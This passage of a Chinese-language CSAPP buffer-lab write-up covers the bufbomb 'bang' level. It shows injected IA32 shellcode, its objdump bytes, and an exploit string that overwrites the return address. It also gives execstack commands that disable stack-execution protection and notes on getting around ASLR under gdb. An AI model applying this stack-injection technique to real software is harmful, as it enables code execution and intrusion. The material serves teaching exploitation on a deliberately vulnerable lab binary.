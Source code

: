 ```

p.s. 版本 1、版本 3 都是可行的
```
将代码存储为 bang.s，然后 `gcc -m32 -c bang.s` 把它转成对应的 IA32 二进制汇编代码，再 `objdump -d bang.o` 对生成的 .o文件反汇编生成二进制代码，得到代码的 ASCII 码格式。将 ASCII 码复制到最后攻击的 bang.txt 中，再加上 0xffffb4dc 返回地址共 20 字节，之后进行最后的攻击。
```
~/myclass/csapp$ gcc -m32 -c bang.s
bang.s: Assembler messages:
bang.s: Warning: end of file not at end of a line; newline inserted
~/myclass/csapp$ ls
bang.o  bang.s  bufbomb  buflab-handout.tar  exploit_fizz.txt  exploit_smoke.txt  fizz.txt  makecookie  sendstring  smoke.txt
~/myclass/csapp$ objdump -d bang.o

bang.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   b8 21 00 11 46          mov    $0x46110021,%eax
   5:   a3 dc a1 04 08          mov    %eax,0x804a1dc
   a:   68 60 8d 04 08          push   $0x8048d60
   f:   c3                      ret
```
bang.txt
```
b8 21 00 11
46 a3 dc a1
04 08 68 60 
8d 04 08 c3 
dc b4 ff ff
```
![](https://github.com/Yudreamy/classlater/blob/master/csapp/datalab3/picture/bang.PNG)
攻击成功！

### 错误处理

运行过程中出现 segmentation fault 报错
```
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_bang.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
```
```c++
/* Signal handler to catch segmentation violations */
void seghandler(int sig)
{
  printf("Ouch!: You caused a segmentation fault!\n");
  printf("Better luck next time\n");
  exit(0);
}
```
查看 bufbomb 源码或其汇编代码发现，程序触发了 segmentation violation 错误。检索后知道，segmentation violation：当ArcView尝试访问其没有权限的内存地址（例如内存进程空间或内存的只读部分）时，就会发生分段错误。此处涉及到系统的两个保护机制：栈执行限制以及随机地址空间分配（ASLR），尝试解决。
```
~/myclass/csapp$ execstack -s bufbomb           # 将 bufbomb 标记为需要可执行堆栈
~/myclass/csapp$ execstack -q bufbomb           # 显示 bufbomb 的可执行堆栈标记
X bufbomb
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_bang.txt -s   # 执行
# 执行时发现命令行下还是会报跟上边同样的错误，但此时进入 gdb 执行发现攻击成功
# ASLR 机制会使系统对地址进行随机分配，而 gdb 下会关闭 ASLR
```